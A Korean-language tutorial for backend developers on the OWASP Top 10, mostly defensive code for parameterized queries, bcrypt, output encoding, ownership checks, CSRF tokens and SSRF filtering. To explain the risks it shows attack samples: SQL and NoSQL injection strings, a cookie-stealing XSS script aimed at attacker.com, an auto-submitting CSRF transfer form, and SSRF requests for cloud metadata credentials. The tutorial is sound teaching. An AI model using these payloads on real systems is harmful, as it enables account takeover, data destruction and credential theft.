



# 보안 기초 개념과 OWASP Top 10

## 시작하기 전에

보안을 별도 팀의 일이라고 생각하는 백엔드 개발자가 많은데, 실제로는 매일 짜는 코드 한 줄 한 줄이 보안에 직결된다. SQL 한 번 잘못 짜서 회사가 1년 매출만큼의 과징금을 맞는 일이 한국에서도 매년 발생한다. 보안 팀이 잡아주길 기다리지 말고 코드를 짤 때 직접 막아야 한다.

이 문서는 OWASP Top 10을 기준으로 백엔드 개발자가 실제로 마주치는 취약점과 막는 방법을 정리한다. 이론보다는 어디서 깨지는지, 어떻게 짜야 안 깨지는지에 집중한다.

## CIA 트라이어드

보안의 출발점이다. 기밀성(Confidentiality), 무결성(Integrity), 가용성(Availability) 세 가지가 모두 만족되어야 시스템이 안전하다고 말할 수 있다.



세 가지가 항상 동시에 만족되진 않는다. 기밀성을 극단적으로 높이면 접근 절차가 복잡해져 가용성이 떨어진다. 가용성을 위해 캐싱을 늘리면 캐시에 민감한 데이터가 쌓여 기밀성이 흔들린다. 보안 설계는 이 균형을 잡는 일이지 모든 것을 다 막는 일이 아니다.

실무에서 기밀성이 깨지는 흔한 케이스는 로그에 비밀번호나 토큰이 그대로 찍히는 것, API 응답에 본인이 아닌 다른 사용자 데이터가 섞여 나오는 것, 에러 메시지에 DB 스키마나 내부 파일 경로가 노출되는 것이다. 무결성은 race condition으로 잔액이 음수가 되거나, 클라이언트가 보낸 가격을 그대로 믿어 100원짜리를 1원에 결제 처리하는 식으로 깨진다.

## 인증과 인가

이 둘을 헷갈리는 사람이 많다. 인증(Authentication)은 "당신이 누구인지"를 확인하는 것이고, 인가(Authorization)는 "이 행동을 해도 되는지"를 확인하는 것이다. 로그인은 인증이고, 로그인한 사용자가 다른 사람의 글을 수정하려 할 때 막는 것이 인가다.



인증은 한 번만 통과하면 끝이지만 인가는 모든 요청에서 매번 확인해야 한다. 로그인했다고 모든 리소스에 접근 가능한 게 아니다. 이 부분을 빼먹어서 IDOR 취약점이 발생한다.

## OWASP Top 10이란

OWASP(Open Web Application Security Project)에서 몇 년에 한 번씩 가장 많이 발생하는 웹 취약점 10개를 정리해 발표한다. 산업 표준에 가까운 문서고, 보안 컴플라이언스 심사에서도 OWASP Top 10 대응 여부를 묻는다. 이 10가지를 막을 수 있으면 실무 보안의 80%는 덮인다.

순서를 외울 필요는 없다. 어떤 취약점이 어떻게 발생하고, 어떻게 막는지를 이해하는 게 중요하다.

## A03 Injection (SQL Injection 등)

가장 오래되고 가장 위험한 공격이다. 사용자 입력을 쿼리에 그대로 박아 넣으면 입력값이 쿼리 구조를 바꿔버린다.

### 공격 시나리오

로그인 처리 코드를 이렇게 짰다고 하자.

```javascript
// 절대 이렇게 짜면 안 된다
const query = `SELECT * FROM users WHERE id = '${userId}' AND password = '${password}'`;
```

공격자가 `userId`에 `admin' --` 를 넣으면 쿼리가 이렇게 바뀐다.

```sql
SELECT * FROM users WHERE id = 'admin' --' AND password = '아무거나'
```

`--` 뒤는 SQL 주석 처리되어 비밀번호 검증 자체가 사라진다. admin으로 로그인 성공이다. 더 심한 케이스는 `'; DROP TABLE users; --` 같은 입력으로 테이블을 통째로 날려버리는 것이고, `UNION SELECT` 를 끼워 다른 테이블 데이터를 응답에 포함시켜 빼가는 것이다.

### 방어 코드

핵심은 단 하나다. **사용자 입력을 쿼리 문자열로 만들지 마라**. Prepared Statement(Parameterized Query)를 써라.

```javascript
// Node.js mysql2 - 올바른 방법
const [rows] = await connection.execute(
  'SELECT * FROM users WHERE id = ? AND password = ?',
  [userId, password]
);

// 이러면 userId에 무엇을 넣어도 그냥 문자열 값으로만 처리된다
```

```python
# Python psycopg2 - 올바른 방법
cursor.execute(
    "SELECT * FROM users WHERE id = %s AND password = %s",
    (user_id, password)
)
```

```java
// Java JDBC - 올바른 방법
PreparedStatement ps = conn.prepareStatement(
    "SELECT * FROM users WHERE id = ? AND password = ?"
);
ps.setString(1, userId);
ps.setString(2, password);
```

Prepared Statement는 쿼리 구조와 파라미터를 분리해서 DB에 보낸다. DB는 이미 쿼리 구조를 파싱해 둔 상태에서 파라미터를 단순 값으로만 취급하기 때문에 입력에 `'` 나 `--` 가 있어도 쿼리 구조에 영향을 주지 못한다.

### 자주 빠지는 함정

ORM을 쓰면 안전하다고 생각하는데 절반만 맞다. ORM의 raw 쿼리, `like` 절의 와일드카드, `orderBy`에 컬럼명을 동적으로 넣는 경우는 여전히 위험하다.

```javascript
// TypeORM에서도 위험한 코드
const users = await repo.query(`SELECT * FROM users WHERE name LIKE '%${keyword}%'`);

// orderBy에 사용자 입력을 그대로 받는 경우
const users = await repo.find({ order: { [userInput]: 'ASC' } }); // 컬럼명에 SQL이 들어올 수 있다
```

`orderBy`나 컬럼명처럼 파라미터로 처리할 수 없는 경우는 화이트리스트로 검증해야 한다.

```javascript
const ALLOWED_SORT_COLUMNS = ['createdAt', 'name', 'id'];
const sortBy = ALLOWED_SORT_COLUMNS.includes(req.query.sort) ? req.query.sort : 'createdAt';
```

NoSQL도 인젝션이 있다. MongoDB에서 `{ password: req.body.password }` 식으로 객체를 그대로 받으면 `{"password": {"$ne": null}}` 같은 입력에 뚫린다. 입력은 항상 타입과 형식을 검증해라.

## A07 Identification and Authentication Failures (Broken Authentication)

인증 자체가 깨지는 케이스다. 비밀번호를 평문으로 저장하거나, 세션 토큰을 추측 가능하게 만들거나, 무차별 대입 공격을 막지 않는 경우다.

### 비밀번호 저장

비밀번호는 절대로 평문으로 저장하면 안 되고, 단순 해시(MD5, SHA-1, SHA-256)도 안 된다. 레인보우 테이블로 분 단위에 깨진다. 반드시 bcrypt, scrypt, Argon2 같은 느린 해시를 써야 한다.

```javascript
import bcrypt from 'bcrypt';

// 저장할 때
const hash = await bcrypt.hash(plainPassword, 12); // 12는 cost factor
await db.users.insert({ email, password: hash });

// 로그인 검증할 때
const user = await db.users.findOne({ email });
const isValid = await bcrypt.compare(plainPassword, user.password);
```

cost factor 12는 일반 서버에서 1회 해시에 약 200~300ms가 걸리는 수준이다. 너무 빠르면 무차별 대입이 쉬워지고, 너무 느리면 사용자 경험이 망가진다. 서버 성능에 맞춰 조정해라.

### 세션과 토큰

세션 ID는 충분히 긴 랜덤 값이어야 한다. 자체 구현하지 말고 검증된 라이브러리(express-session, Spring Session)를 써라. 직접 만들면 `Math.random()` 같은 약한 난수를 쓰는 실수를 한다.

JWT를 쓸 때 자주 보는 실수가 두 가지다.

첫째, `alg: none` 을 허용하는 것. 일부 라이브러리는 토큰의 헤더에서 알고리즘을 그대로 받아 검증한다. 공격자가 알고리즘을 `none` 으로 바꾸고 서명 없이 보내면 통과된다. 서버에서 사용할 알고리즘을 명시적으로 지정해라.

```javascript
// 안전한 검증
jwt.verify(token, secret, { algorithms: ['HS256'] }); // 반드시 algorithms 배열 명시
```

둘째, 비밀키를 약한 값으로 쓰는 것. `secret`, `mysecret` 같은 키는 1초도 안 되어 깨진다. 최소 32바이트 이상의 랜덤 값을 환경변수로 관리해라.

### 무차별 대입 방어

로그인 엔드포인트는 반드시 Rate Limiting을 걸어야 한다. IP 단위로만 막으면 봇넷에 뚫리니까 계정 단위로도 같이 걸어라.

```javascript
import rateLimit from 'express-rate-limit';

const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15분
  max: 5, // 5회 시도 후 차단
  keyGenerator: (req) => `${req.ip}:${req.body.email}`, // IP + 이메일
  message: '로그인 시도가 너무 많습니다. 15분 후 다시 시도하세요.',
});

app.post('/login', loginLimiter, loginHandler);
```

5번 실패하면 계정을 잠그는 것이 일반적이지만, 이건 공격자가 임의 계정을 잠가버리는 DoS로 쓰일 수도 있어서 신중해야 한다. 잠금 대신 점진적 지연(1초, 2초, 4초, 8초...)을 적용하는 방법이 더 균형 잡혀 있다.

## A03 XSS (Cross-Site Scripting)

사용자 입력에 포함된 스크립트를 다른 사용자의 브라우저에서 실행하게 만드는 공격이다. 게시판, 댓글, 프로필 같은 사용자 콘텐츠가 들어가는 곳이면 어디든 발생할 수 있다.

### 공격 시나리오

게시판에 이런 댓글을 남긴다.

```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```

서버가 이 댓글을 그대로 HTML로 렌더링하면 다른 사용자가 댓글을 볼 때마다 그 사용자의 쿠키가 공격자 서버로 전송된다. 세션 쿠키가 탈취되면 그 사용자로 로그인된 상태에서 무엇이든 할 수 있다.

XSS는 세 종류로 나뉜다. **Stored XSS**는 DB에 저장되어 모든 방문자에게 실행되는 것, **Reflected XSS**는 URL 파라미터를 그대로 응답에 출력해 링크 클릭 시 실행되는 것, **DOM-based XSS**는 클라이언트 자바스크립트가 안전하지 않게 DOM을 조작해서 발생하는 것이다.

### 방어: 출력 인코딩

핵심은 출력 시점에 컨텍스트에 맞게 인코딩하는 것이다. 입력 시점에 막는 건 부차적이다. 같은 데이터라도 HTML에 들어갈 때, JavaScript 문자열에 들어갈 때, URL에 들어갈 때 인코딩 방식이 다르다.

```javascript
// HTML 컨텍스트 - <, >, &, ", ' 를 엔티티로
function escapeHtml(str) {
  return String(str)
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#39;');
}

// 사용 예
res.send(`<div>${escapeHtml(userComment)}</div>`);
```

대부분의 템플릿 엔진(EJS의 `<%= %>`, Pug, Thymeleaf, Jinja2)은 기본적으로 HTML 이스케이프를 한다. `<%- %>` 나 `|safe` 같은 raw 출력 문법을 쓸 때만 위험하다. React는 `{value}` 로 출력하면 자동으로 이스케이프되지만 `dangerouslySetInnerHTML` 을 쓰면 무방비다.

```jsx
// 안전
<div>{userComment}</div>

// 위험 - 사용하기 전에 반드시 sanitize
<div dangerouslySetInnerHTML={{ __html: userComment }} />
```

HTML이 포함된 콘텐츠(리치 텍스트 에디터 등)를 허용해야 한다면 DOMPurify 같은 라이브러리로 sanitize 해야 한다.

```javascript
import DOMPurify from 'isomorphic-dompurify';

const clean = DOMPurify.sanitize(userHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
  ALLOWED_ATTR: ['href'],
});
```

### Content Security Policy

CSP 헤더를 걸면 XSS의 영향을 크게 줄일 수 있다. 인라인 스크립트나 외부 스크립트 실행 자체를 차단하기 때문에 코드에 XSS 구멍이 있어도 익스플로잇이 어려워진다.

```javascript
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; " +
    "script-src 'self' 'nonce-" + req.cspNonce + "'; " +
    "style-src 'self' 'unsafe-inline'; " +
    "img-src 'self' data: https:; " +
    "connect-src 'self' https://api.example.com;"
  );
  next();
});
```

`'unsafe-inline'` 을 script-src에 두면 CSP의 의미가 없으니 nonce나 hash 방식을 써라. 처음 적용하면 기존 인라인 스크립트가 다 깨지니 단계적으로 도입해야 한다.

## A01 Broken Access Control (IDOR 포함)

권한 검증을 빼먹어서 다른 사용자의 데이터에 접근할 수 있게 되는 취약점이다. IDOR(Insecure Direct Object Reference)이 대표적이다.

### IDOR 공격 시나리오

이런 API를 만들었다.

```javascript
app.get('/api/orders/:orderId', authMiddleware, async (req, res) => {
  const order = await db.orders.findById(req.params.orderId);
  res.json(order);
});
```

로그인은 했지만 그 주문이 본인 것인지 확인을 안 했다. 공격자는 자기 주문 페이지에서 URL의 orderId를 1씩 바꿔가며 다른 사람의 주문 정보를 모두 빼갈 수 있다. 실무에서 정말 자주 보는 취약점이고, 한국 이커머스 사이트에서도 매년 이런 사고가 터진다.

### 방어 코드

소유권 또는 권한을 반드시 확인해라.

```javascript
app.get('/api/orders/:orderId', authMiddleware, async (req, res) => {
  const order = await db.orders.findById(req.params.orderId);

  if (!order) {
    return res.status(404).json({ error: 'Order not found' });
  }

  // 핵심: 소유자 확인
  if (order.userId !== req.user.id && !req.user.isAdmin) {
    // 404를 반환해야 한다. 403을 주면 해당 ID가 존재함이 노출된다
    return res.status(404).json({ error: 'Order not found' });
  }

  res.json(order);
});
```

쿼리 자체에 소유자 조건을 넣는 방식이 더 안전하다. 빠뜨릴 가능성이 줄어든다.

```javascript
const order = await db.orders.findOne({
  where: { id: req.params.orderId, userId: req.user.id }
});

if (!order) {
  return res.status(404).json({ error: 'Order not found' });
}
```

### 추측 불가능한 ID

연속된 정수 ID는 IDOR 공격을 유도한다. 외부에 노출되는 ID는 UUID나 ULID 같은 추측 불가능한 값을 써라. DB의 PK는 정수로 두고 외부 노출용 컬럼만 따로 두는 패턴이 흔하다.

```javascript
// 공개 ID는 UUID로
{
  id: 12345,                                    // 내부용 PK
  publicId: 'a3f8e2c4-...',                     // 외부 노출
  userId: 67890,
}
```

### 권한 매트릭스

기능이 늘어나면 누가 무엇을 할 수 있는지 코드 곳곳에 흩어진다. 권한 정책을 한 곳에 모으는 게 유지보수에 좋다.

```javascript
// abilities.js
export const can = (user, action, resource) => {
  if (user.role === 'admin') return true;

  const policies = {
    'order:read': (u, r) => r.userId === u.id,
    'order:cancel': (u, r) => r.userId === u.id && r.status === 'PENDING',
    'post:edit': (u, r) => r.authorId === u.id,
  };

  const policy = policies[action];
  return policy ? policy(user, resource) : false;
};

// 사용
if (!can(req.user, 'order:cancel', order)) {
  return res.status(403).json({ error: 'Forbidden' });
}
```

## A08 CSRF (Cross-Site Request Forgery)

다른 사이트에서 사용자의 인증 정보를 이용해 우리 사이트로 요청을 보내는 공격이다. 사용자가 우리 사이트에 로그인된 상태에서 공격자가 만든 페이지를 방문하면, 그 페이지의 폼이나 이미지 태그가 우리 서버로 요청을 보내고 브라우저는 자동으로 쿠키를 같이 보낸다.

### 공격 시나리오

사용자가 우리 은행 사이트에 로그인되어 있다. 공격자가 만든 페이지에 이런 코드가 있다.

```html
<form action="https://bank.com/transfer" method="POST" id="f">
  <input name="to" value="attacker">
  <input name="amount" value="1000000">
</form>
<script>document.getElementById('f').submit()</script>
```

사용자가 이 페이지를 방문하면 즉시 우리 은행으로 송금 요청이 간다. 사용자의 쿠키도 함께 전송되니 서버 입장에선 사용자가 송금 버튼을 누른 것과 구분이 안 된다.

### 방어: CSRF Token

서버에서 폼 또는 페이지 로드 시 랜덤 토큰을 발급하고, 요청에 그 토큰이 포함되어야만 처리한다. 다른 사이트는 이 토큰을 알 수 없으니 막힌다.

```javascript
import csrf from 'csurf';

app.use(csrf({ cookie: true }));

app.get('/transfer', (req, res) => {
  res.render('transfer', { csrfToken: req.csrfToken() });
});

// HTML
// <input type="hidden" name="_csrf" value="{{ csrfToken }}">

app.post('/transfer', (req, res) => {
  // csurf 미들웨어가 자동으로 토큰 검증
  // 토큰이 없거나 다르면 403
});
```

### 방어: SameSite Cookie

최근 브라우저는 SameSite 쿠키 속성을 지원한다. `Strict` 나 `Lax` 로 설정하면 다른 사이트에서 보내는 요청에는 쿠키가 첨부되지 않는다. 크롬은 기본값이 `Lax` 로 바뀌어서 CSRF 위험이 많이 줄었지만, 브라우저 호환성과 명시성을 위해 직접 설정해라.

```javascript
res.cookie('session', sessionId, {
  httpOnly: true,    // JS에서 접근 불가 (XSS 방어)
  secure: true,      // HTTPS에서만 전송
  sameSite: 'lax',   // 다른 사이트 요청에 쿠키 차단
  maxAge: 1000 * 60 * 60 * 24,
});
```

`Strict` 가 가장 안전하지만 외부 링크를 통해 들어올 때 로그인 상태가 풀려서 UX가 나빠진다. 일반적으로 `Lax` 가 균형이 맞다.

### API에서의 CSRF

JWT를 헤더로 보내는 API는 CSRF에서 비교적 안전하다. 다른 사이트의 자바스크립트는 우리 사이트 도메인의 localStorage에 접근할 수 없기 때문이다. 단, JWT를 쿠키에 저장하면 다시 CSRF 위험이 생긴다.

## A10 SSRF (Server-Side Request Forgery)

서버가 외부 URL을 요청하는 기능을 악용해 내부 네트워크에 접근하는 공격이다. 이미지 다운로드, URL 미리보기, 웹훅 등 사용자가 URL을 입력하는 기능이 있으면 발생할 수 있다.

### 공격 시나리오

이미지 URL을 받아 다운로드하는 기능이 있다.

```javascript
app.post('/api/import-image', async (req, res) => {
  const response = await fetch(req.body.url);
  const buffer = await response.buffer();
  // ...
});
```

공격자가 `http://169.254.169.254/latest/meta-data/iam/security-credentials/` 를 보낸다. AWS EC2의 메타데이터 엔드포인트다. 서버가 이 URL을 요청해서 IAM 자격증명을 받아 응답에 포함시키면 공격자가 클라우드 자격증명을 손에 넣는다. 이게 실제 Capital One 1억 명 정보 유출 사건의 원인이었다.

내부망의 다른 서비스(예: `http://internal-admin:8080/users`)나 `file:///etc/passwd` 같은 파일 프로토콜도 공격 벡터가 된다.

### 방어 코드

URL을 받아 외부에 요청할 때는 다음을 모두 검증해라.

```javascript
import { lookup } from 'dns/promises';
import { isIP } from 'net';

async function safeFetch(urlString) {
  const url = new URL(urlString);

  // 1. 프로토콜 화이트리스트
  if (!['http:', 'https:'].includes(url.protocol)) {
    throw new Error('Only http(s) allowed');
  }

  // 2. 호스트를 IP로 해석해서 사설 대역 차단
  const { address } = await lookup(url.hostname);

  if (isPrivateIP(address)) {
    throw new Error('Private IP not allowed');
  }

  // 3. 리다이렉트 따라가지 않거나 따라갈 때마다 다시 검증
  return fetch(urlString, { redirect: 'manual', timeout: 5000 });
}

function isPrivateIP(ip) {
  // IPv4 사설 대역
  if (ip.startsWith('10.')) return true;
  if (ip.startsWith('192.168.')) return true;
  if (/^172\.(1[6-9]|2\d|3[01])\./.test(ip)) return true;
  if (ip.startsWith('127.')) return true;          // 루프백
  if (ip.startsWith('169.254.')) return true;      // 링크로컬, AWS 메타데이터
  if (ip === '0.0.0.0') return true;
  // IPv6도 ::1, fc00::/7 등 추가 필요
  return false;
}
```

조심해야 할 부분이 있다. 도메인을 처음 검증할 때와 실제 요청할 때 IP가 다를 수 있다(DNS Rebinding 공격). 검증한 IP로 직접 요청하거나, HTTP 클라이언트를 customize 해서 한 번 해석한 IP를 고정해서 써야 한다.

가장 안전한 건 별도 네트워크에서 외부 요청을 처리하는 프록시 서버를 두고, 백엔드 서버는 내부망에서 그 프록시만 통하게 하는 것이다.

## A02 Cryptographic Failures

암호화 실패는 평문 전송, 약한 암호 알고리즘, 키 관리 실패 모두를 포함한다.

### HTTPS는 옵션이 아니다

HTTP로 로그인 요청을 보내면 같은 와이파이의 누구나 비밀번호를 볼 수 있다. 카페에서 한 번이라도 우리 서비스에 로그인하면 끝이다. 모든 트래픽을 HTTPS로 강제해라.

```javascript
// HTTP 요청을 HTTPS로 리다이렉트
app.use((req, res, next) => {
  if (req.header('x-forwarded-proto') !== 'https' && process.env.NODE_ENV === 'production') {
    return res.redirect(`https://${req.header('host')}${req.url}`);
  }
  next();
});

// HSTS - 한 번 HTTPS로 접속한 브라우저는 다음부터 강제 HTTPS
res.setHeader('Strict-Transport-Security', 'max-age=31536000; includeSubDomains; preload');
```

HSTS의 `max-age` 는 1년 이상 권장이다. `preload` 를 쓰려면 hstspreload.org 에 등록해야 한다.

### 사용하면 안 되는 것

DES, 3DES, RC4, MD5, SHA-1은 더 이상 안전하지 않다. ECB 모드 AES도 패턴이 노출되어 위험하다. 새로 짜는 코드에서는 다음을 써라.

- 대칭키: AES-256-GCM (인증 모드 포함)
- 비대칭키: RSA-2048 이상, ECDSA P-256 이상
- 해시: SHA-256, SHA-3
- 비밀번호: bcrypt, scrypt, Argon2id
- 메시지 인증: HMAC-SHA-256

```javascript
import crypto from 'crypto';

// AES-256-GCM 암호화
function encrypt(plaintext, key) {
  const iv = crypto.randomBytes(12);
  const cipher = crypto.createCipheriv('aes-256-gcm', key, iv);
  const encrypted = Buffer.concat([cipher.update(plaintext, 'utf8'), cipher.final()]);
  const tag = cipher.getAuthTag();
  return { iv, encrypted, tag };
}

function decrypt({ iv, encrypted, tag }, key) {
  const decipher = crypto.createDecipheriv('aes-256-gcm', key, iv);
  decipher.setAuthTag(tag);
  return Buffer.concat([decipher.update(encrypted), decipher.final()]).toString('utf8');
}
```

IV(Initialization Vector)는 매번 다른 랜덤 값이어야 한다. 같은 키와 같은 IV로 두 번 암호화하면 GCM 모드에서는 보안이 완전히 깨진다.

## 입력 검증 패턴

OWASP Top 10의 거의 모든 항목이 입력 검증으로 일부 또는 전부 막힌다. 입력 검증의 원칙은 두 가지다.

첫째, **블랙리스트가 아니라 화이트리스트**로 검증해라. "이건 막아라" 가 아니라 "이것만 허용한다" 식으로 짜야 한다. 블랙리스트는 새로운 우회 기법이 나오면 뚫린다.

둘째, **경계에서 검증**하고 내부에서는 신뢰해라. API 엔드포인트, 외부 시스템 연동 지점에서 한 번 강력하게 검증하면 내부 함수에서는 안심하고 쓸 수 있다.

```javascript
import { z } from 'zod';

const CreateUserSchema = z.object({
  email: z.string().email().max(255),
  password: z.string().min(8).max(72), // bcrypt는 72바이트 이후 무시
  name: z.string().min(1).max(50).regex(/^[가-힣a-zA-Z0-9 ]+$/),
  age: z.number().int().min(0).max(150),
  role: z.enum(['user', 'admin']), // 화이트리스트
});

app.post('/api/users', async (req, res) => {
  const result = CreateUserSchema.safeParse(req.body);

  if (!result.success) {
    return res.status(400).json({ errors: result.error.errors });
  }

  // 이 시점부터는 result.data가 검증된 타입이다
  const user = await createUser(result.data);
  res.json({ id: user.id });
});
```

Zod, Joi, class-validator, Pydantic, Bean Validation 등 언어별로 좋은 라이브러리가 있다. 직접 if-else로 검증하지 말고 라이브러리를 써라. 검증 규칙이 코드 곳곳에 흩어지면 빠뜨리는 게 생긴다.

## 보안 헤더 일괄 설정

브라우저에 보안 동작을 지시하는 HTTP 헤더들이 있다. 이걸 안 걸면 클라이언트 측 방어가 약해진다. Express라면 `helmet` 미들웨어가 한 번에 처리해 준다.

```javascript
import helmet from 'helmet';

app.use(helmet({
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"],
      styleSrc: ["'self'", "'unsafe-inline'"],
      imgSrc: ["'self'", 'data:', 'https:'],
      connectSrc: ["'self'", 'https://api.example.com'],
      frameAncestors: ["'none'"],
    },
  },
  hsts: {
    maxAge: 31536000,
    includeSubDomains: true,
    preload: true,
  },
}));
```

직접 설정한다면 최소한 다음 헤더는 걸어라.

```
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Referrer-Policy: strict-origin-when-cross-origin
Content-Security-Policy: default-src 'self'
Permissions-Policy: geolocation=(), microphone=(), camera=()
```

각 헤더의 역할은 이렇다.

- **HSTS**: 다음번 접속도 무조건 HTTPS로 강제
- **X-Content-Type-Options: nosniff**: 브라우저가 Content-Type을 추측해서 다른 타입으로 해석하는 것을 막음 (MIME sniffing)
- **X-Frame-Options: DENY**: iframe에 우리 사이트를 넣을 수 없게 막음 (clickjacking 방어)
- **Referrer-Policy**: 외부 사이트로 이동할 때 referer 헤더에 민감한 URL이 노출되지 않게 함
- **CSP**: XSS와 데이터 인젝션 방어
- **Permissions-Policy**: 사용하지 않는 브라우저 기능을 명시적으로 차단

## 에러 처리와 로깅

보안의 마지막 단계는 사고가 나도 추적할 수 있고, 사고가 사고로 번지지 않게 하는 것이다.

### 에러 메시지

사용자에게 보여주는 에러 메시지에 내부 정보가 들어가면 안 된다.

```javascript
// 절대 이렇게 하면 안 된다
app.use((err, req, res, next) => {
  res.status(500).json({ error: err.message, stack: err.stack });
});
```

스택 트레이스에 파일 경로, 라이브러리 버전, DB 연결 정보가 노출된다. 운영 환경에서는 일반적인 메시지만 주고, 추적은 서버 로그에서 해라.

```javascript
app.use((err, req, res, next) => {
  const errorId = crypto.randomUUID();
  logger.error({ errorId, err, url: req.url, userId: req.user?.id });

  res.status(500).json({
    error: 'Internal server error',
    errorId, // 사용자가 문의할 때 이 ID로 추적
  });
});
```

로그인 실패 메시지도 신경 써야 한다. "이메일이 존재하지 않습니다"와 "비밀번호가 틀렸습니다"를 구분해서 보여주면 공격자가 가입된 이메일을 알아낼 수 있다. 둘 다 같은 메시지로 통일해라.

### 로깅에서 빠져야 할 것

로그에 절대 들어가면 안 되는 것들이다.

- 비밀번호, 비밀번호 해시
- 신용카드 번호, CVC
- 주민등록번호 (한국)
- API 키, 토큰, 비밀키
- 세션 ID 전체

미들웨어에서 자동으로 마스킹하는 게 안전하다.

```javascript
function maskSensitive(obj) {
  const SENSITIVE = ['password', 'token', 'authorization', 'cookie', 'apiKey'];
  const masked = { ...obj };

  for (const key of Object.keys(masked)) {
    if (SENSITIVE.includes(key.toLowerCase())) {
      masked[key] = '***';
    } else if (typeof masked[key] === 'object' && masked[key] !== null) {
      masked[key] = maskSensitive(masked[key]);
    }
  }
  return masked;
}

app.use((req, res, next) => {
  logger.info({ method: req.method, url: req.url, body: maskSensitive(req.body) });
  next();
});
```

### 보안 이벤트 로깅

다음 이벤트는 별도 로그로 남겨서 침해 시 분석에 써라.

- 로그인 성공/실패
- 비밀번호 변경
- 권한 변경
- 결제, 송금 같은 중요 거래
- 관리자 액션
- 5xx 에러

이런 로그는 일반 애플리케이션 로그와 분리해서 더 오래 보관하고, 변조 방지를 위해 append-only로 운영하는 게 좋다.

## 심층 방어 (Defense in Depth)

한 가지 방어책에만 의존하면 그게 뚫리는 순간 끝이다. 여러 층으로 막아두면 한 층이 뚫려도 다음 층에서 잡힌다.



예를 들어 SQL Injection은 WAF에서 1차로 거르고, 애플리케이션에서 Prepared Statement로 2차 방어하고, DB 사용자 권한을 최소화해서 3차로 막는다. 어느 한 층이 실수로 뚫려도 다른 층에서 막힌다.

